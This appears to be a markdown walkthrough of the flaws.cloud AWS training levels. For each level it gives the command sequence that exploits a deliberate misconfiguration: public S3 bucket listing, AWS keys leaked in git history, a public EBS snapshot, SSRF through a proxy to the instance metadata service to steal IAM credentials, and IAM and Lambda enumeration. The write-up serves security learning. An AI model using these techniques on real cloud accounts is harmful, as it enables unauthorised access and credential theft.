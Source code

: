 
### Level 1: http://flaws.cloud

**Vulnerability:** bucket's listing access permission set to "Everyone"

```
# determine region
$ host flaws.cloud
$ host <IP>
# list bucket content
$ aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
# get interesting file
$ aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --no-sign-request --region us-west-2 secret-dd02c7c.html
$ cat secret-dd02c7c.html
```

### Level 2: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud

**Vulnerability:** bucket's listing access permission set to "Any Authenticated AWS User"

    $ aws s3 --profile mzetAccount ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
    $ aws s3 --profile mzetAccount cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html secret-e4443fc.html

### Level 3: http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud

**Vulnerability:** bucket listing access to 'Everyone' + leaking AWS keys by accidently commiting it to git repo kept in the bucket

```
$ aws s3 ls http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --no-sign-request --region us-west-2
# download content of the bucket:
$ aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
# retreive secret from git history: 
$ git log 
$ git stash
$ git checkout f7cebc46b471ca9838a0bdd1074bb498a3f84c87
$ cat secret.txt
# create new profile with found AWS keys & list all available buckets for this account:
$ aws configure --profile flaws.cloud
$ aws --profile flaws s3 ls
```

### Level 4: http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud

**Vulnerability:** snapshot of EC2 instance is made accessible to all AWS users (is made 'Public')

```
# identify DNS name of EC2 instance:
$ host 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud

# look for snapshot of ec2-35-165-182-7.us-west-2.compute.amazonaws.com machine:

# first get identity of keys that are used (to filter snapshots only for this user)
$ aws --profile flaws.cloud sts get-caller-identity
# get all snapshots of this (owner-id) user. Note that request is done by other AWS user
$ aws --profile mzetAccount ec2 describe-snapshots --owner-id 975426262029 --region us-west-2

OR (filter by volume-id):

$ aws --profile flaws.cloud ec2 describe-instances | grep -i volumeid
# get all snapshots of this volume
$ aws --profile mzetAccount ec2 describe-snapshots --filter "Name=volume-id,Values=vol-04f1c039bc13ea950" --region us-west-2

# create volume from the snapshot:
$ aws --profile mzetAccount ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89

# In AWS Console:
# create EC2 instance with second volume (snap-0b49342abd1bdcb89) attached

# SSH into created instance:
$ ssh -i ".ssh/key.pem" <user>@<instance-ip>
$ sudo mount /dev/xvdb1 /mnt
$ cat /mnt/home/ubuntu/setupNginx.sh
```

### Level 5: http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/

**Vulnerability:** exposed proxy which doesn't restrict access to instance's meta-data server and private IP range

```
# attempt to access meta-adata via proxy
$ curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/

# access instance's credentials via proxy (flaws is a role with which instanse is associated)
$ curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws

# use exposed credentials (from the command above) to list level6 bucket:
$ export AWS_SESSION_TOKEN="<AWS_SESSION_TOKEN>"
$ AWS_ACCESS_KEY_ID='<AWS_ACCESS_KEY_ID>' AWS_SECRET_ACCESS_KEY='<AWS_SECRET_ACCESS_KEY>' aws s3 ls --recursive s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
```

### Level 6: level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/

**Vulnerability:** excessive perimssions ('SecurityAudit' policy) are given

```
# confirm your 'level6' identity:
$ aws --profile flaws.cloud3 iam get-user
OR
$ aws --profile flaws.cloud3 sts get-caller-identity

# run scout2 tool: 
$ python Scout2.py --profile flaws.cloud3

# identify/confirm policies attached to 'level6' user (scout2 output should catch your attention on this):
$ aws --profile flaws.cloud3 iam list-attached-user-policies --user-name Level6

# get info about 'list_apigateway' policy:
$ aws --profile flaws.cloud3 iam get-policy --policy-arn "arn:aws:iam::975426262029:policy/list_apigateways"
$ aws --profile flaws.cloud3 iam get-policy-version --policy-arn "arn:aws:iam::975426262029:policy/list_apigateways" --
version-id v4

# AWS API gateways are commonly used to run AWS Lambda managed code, let's whether that's the case here:
$ aws --region us-west-2 --profile flaws.cloud3 lambda list-functions
$ aws --region us-west-2 --profile flaws.cloud3 lambda get-policy --function-name Level6
$ aws --profile flaws.cloud3 --region us-west-2 apigateway get-stages --rest-api-id "s33ppypa75"

# finally, using: we can construct Lambda function URL:
https://<rest-api-id>.execute-api.<region>.amazonaws.com/<stage-name>/<function-name>
https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6

# visiting this URL reveals final link:
http://theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b/
```
